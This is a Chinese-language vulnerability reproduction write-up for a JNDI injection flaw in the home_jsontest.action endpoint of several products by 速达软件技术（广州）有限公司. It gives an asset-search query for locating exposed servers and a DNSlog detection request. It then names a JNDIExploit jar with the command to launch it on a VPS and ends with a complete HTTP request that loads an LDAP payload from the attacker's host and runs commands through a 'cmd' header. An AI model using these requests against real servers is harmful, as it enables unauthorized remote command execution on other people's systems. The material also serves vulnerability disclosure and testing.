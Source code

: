 # 速达软件技术（广州）有限公司多款产品home_jsontest存在JNID注入漏洞

# 一、漏洞简介
速达软件技术（广州）有限公司多款产品home_jsontest存在JNID注入漏洞,攻击者可通过该漏洞获取服务器权限。

# 二、影响版本
+ 速达软件技术（广州）有限公司多款产品

# 三、资产测绘
+ hunter`web.body="速达软件技术（广州）有限公司"`
+ 特征

![1699201284929-aa4ce68c-746e-4b42-b2a6-5ee57011daf5.png](./img/vbR5mYTuE8woTkQt/1699201284929-aa4ce68c-746e-4b42-b2a6-5ee57011daf5-774482.png)

![1699201312048-19df152b-1307-4860-87ac-d74fe2d646ae.png](./img/vbR5mYTuE8woTkQt/1699201312048-19df152b-1307-4860-87ac-d74fe2d646ae-980863.png)

# 四、漏洞复现
1. 获取dnslog

```plain
56tcas.dnslog.cn
```

![1705075555323-9faae18e-4bfa-4803-a7d5-9408d85060f0.png](./img/vbR5mYTuE8woTkQt/1705075555323-9faae18e-4bfa-4803-a7d5-9408d85060f0-593145.png)

2. 检测是否存在漏洞

```plain
GET /login/home_jsontest.action?reqType=json&ISLOGIN=TRUE&eid=1&msg=1&errNo=${jndi:ldap://56tcas.dnslog.cn} HTTP/1.1
Host: 
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=96BFB09D9ED705FAF1EFD3CF45ECFFFC
Connection: close
```

![1705075600920-3fb66b0b-cb28-4cef-9746-025483e9b4b3.png](./img/vbR5mYTuE8woTkQt/1705075600920-3fb66b0b-cb28-4cef-9746-025483e9b4b3-699206.png)

![1705075633851-0f65cea0-d544-45dc-b23d-8a1bb4d513db.png](./img/vbR5mYTuE8woTkQt/1705075633851-0f65cea0-d544-45dc-b23d-8a1bb4d513db-391053.png)

漏洞利用

[JNDIExploit-1.4-SNAPSHOT.jar](https://www.yuque.com/attachments/yuque/0/2024/jar/1622799/1709222146440-fd7d4f17-a37c-4c78-b216-daf75b276c2c.jar)

将`JNDIExploit-1.4-SNAPSHOT.jar`上传到`vps`

```plain
java -jar JNDIExploit-1.4-SNAPSHOT.jar -i vpsip
```

![1705075364344-caf730e8-f910-4617-87ae-297aec05dbeb.png](./img/vbR5mYTuE8woTkQt/1705075364344-caf730e8-f910-4617-87ae-297aec05dbeb-265724.png)

```plain
GET /login/home_jsontest.action?reqType=json&ISLOGIN=TRUE&eid=1&msg=1&errNo=${jndi:ldap://vpsip:1389/Basic/TomcatEcho} HTTP/1.1
Host: 
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
cmd: whoami
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=96BFB09D9ED705FAF1EFD3CF45ECFFFC
Connection: close
```

![1705075717234-da653e58-3474-4718-9917-d7a1d5f6e028.png](./img/vbR5mYTuE8woTkQt/1705075717234-da653e58-3474-4718-9917-d7a1d5f6e028-765312.png)



> 更新: 2024-02-29 23:55:46  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/gfkhwzlwu9779wkv>